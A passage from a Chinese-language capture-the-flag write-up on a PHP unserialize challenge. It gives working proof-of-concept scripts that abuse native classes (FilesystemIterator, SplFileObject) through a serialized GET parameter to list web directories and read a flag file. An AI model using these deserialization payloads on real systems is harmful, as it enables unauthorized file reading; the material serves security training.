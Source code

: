 ```php
    unserialize($_GET['pop']);
}
else{
    $a=new A;

}
```

 先代码审计，发现没有什么危险函数的利用，因此只能尝试利用原生类了

 首先利用DirectoryIterator或FilesystemIterator类去遍历目标的Web目录：  

```php
<?php
class A{
    public $class='FilesystemIterator';    
    // FilesystemIterator("/var/www/html")
    public $para="/var/www/html/";
    public $check;
    }

$poc  = new A();
echo urlencode(serialize($poc));
//?pop=xxxxxxxxxx....,执行后得到一个文件夹 aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE：
```

 然后进入这个文件夹  

```php
<?php
class A{
    public $class='FilesystemIterator';    
    // FilesystemIterator("/var/www/html")
    public $para="/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/";
    public $check;
    }

$poc  = new A();
echo urlencode(serialize($poc));
//看到flag.php
```

 现在我们只需要读取文件内容，**利用SplFileObject类**:

```php
<?php
class A{
    public $class='SplFileObject';    
    // SplFileObject("/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php")
    public $para="/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php";
    public $check;
    }

$poc  = new A();
echo serialize($poc);
```
